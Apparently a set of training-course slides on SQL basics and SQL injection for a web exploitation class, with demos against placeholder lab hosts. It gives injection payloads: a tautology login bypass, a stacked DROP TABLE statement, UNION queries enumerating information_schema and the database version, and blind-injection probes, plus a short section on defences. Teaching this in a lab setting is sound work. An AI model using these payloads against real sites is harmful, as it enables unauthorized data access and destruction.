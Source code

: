 # Web Exploitation day 2

## SQL
- S tructured Q uery L anguage - ANSI Standard
- Additional commands added by vendors
- Relational

## Standard Commands
- SELECT - Extracts data from a database
- UNION - Used to combine the result-set of two or more SELECT statements
- USE - Selects the DB to use
- UPDATE - Updates data in a database
- DELETE - Deletes data from a database
- INSERT INTO - Inserts new data into a database
- CREATE DATABASE - Creates a new database
- ALTER DATABASE - Modifies a database
- CREATE TABLE - Creates a new table
- ALTER TABLE - Modifies a table
- DROP TABLE - Deletes a table
- CREATE INDEX - Creates an index (search key)
- DROP INDEX - Deletes an index
- https://www.w3schools.com/SQL/sql_syntax.asp


## DB Interactions
- DEMO: SQL Commands

## Activity
- SQLBOLT
- Interactive tutorials 1-11 and 13
- https://sqlbolt.com/

## SQL Injection - Considerations
- Requires Valid SQL Queries
- Fully patched systems can be vulnerable due to misconfiguration
- Input Field Sanitization
- String vs Integer Values
- Is information_schema Database available?
- GET Request versus POST Request HTTP methods

## Unsanitized vs Sanitized Fields
- Unsanitized: input fields can be found using a Single Quote ⇒ '
- Will return extraneous information
- ' closes a variable, to allow for additional statements/clauses
- May show no errors or generic error (harder Injection)
- Sanitized: input fields are checked for items that might harm the database (Items are removed, escaped, or turned into a single string)
- Validation: checks inputs to ensure it meets a criteria (String doesn’t contain ')


## Server-Side Query Processing
- User enters JohnDoe243 in the name form field and pass1234 in the pass form field.
- The Server-Side Query that would be passed to MySQL from PHP would be:
- BEFORE INPUT:
  - SELECT id FROM users WHERE name=‘$name’ AND pass=‘$pass’;
- AFTER INPUT:
  - SELECT id FROM users WHERE name=‘JohnDoe243’ AND pass=‘pass1234’;


## Example - Injecting Your Statement
- User enters tom' OR 1='1 in the name and pass fields.
- Truth Statement: tom ' OR 1='1
- Server-Side query executed would appear like this:
- SELECT id FROM users WHERE name=‘tom' OR 1='1’ AND pass=‘tom' OR 1='1’

## SQL Injection Validation
- DEMO: SQL Injection
- http://10.50.XX.XX


## Stacking Statements
- Chaining multiple statements together using a semi-colon ;
- SELECT * FROM user WHERE id=‘Johnny'; DROP TABLE Customers; --’


## Nesting statements
- Some Web Application + SQL Database combinations do not allow stacking, such as PHP and MySQL.
- Though they may allow for nesting a statement within an existing one:
- php?key=<value> UNION SELECT 1,column_name,3 from information_schema.columns where table_name = 'members'


## Ignore the rest
- Using # or -- tells the Database to ignore everything after
- Server-Side Query:
- SELECT product FROM item WHERE id = $select limit 1;
- Input to Inject:
- 1 or 1=1; #
- Server-Side Query becomes:
- SELECT product FROM item WHERE id = 1 or 1=1; # limit 1;



## SQL Injection (Nesting)
- DEMO: SQL Injection (Nesting Statements)
- http://10.50.XX.XX/Union.html


## Blind Injection
- Inlcudes Statements to determine how DB is configured
  - Columns in Output
  - Can we return errors
  - Can we return expected Output
- Used when unsanitized fields give generic error or no messages
- Normal Query to pull expected output:
- php?item=4
- Blind injection for validation:
- php?item=4 OR 1=1
- Try ALL combinations! item=1, item=2, item=3, etc.


## Abuse The Client (GET METHOD)
- Passing injection through the URL:
- After the .php?item=4 pass your UNION statement
- prices.php?item=4 UNION SELECT 1,2
- prices.php?item=4 UNION SELECT 1,2,@@version
- What is @@version?


## Abuse The Client (Enum)
- Identifying the schema leads to detailed queries to enumerate the DB
- Research Database Schemas and what information they provide
- php?item=4 UNION SELECT 1,table_name,3 from information_schema.tables where table_schema=database()
- What are information_schema and database()?


## SQL Injection (Database Enumeration)
- DEMO: SQL Injection (Database Enumeration)
- http://10.50.XX.XX/Union.html


## Defending Against
- Validate inputs! Methods differ depending on software
- concatenate : turns inputs into single strings or escape characters
- PHP: mysql_real_escape_string
- SQL: sqlite3_prepare()



















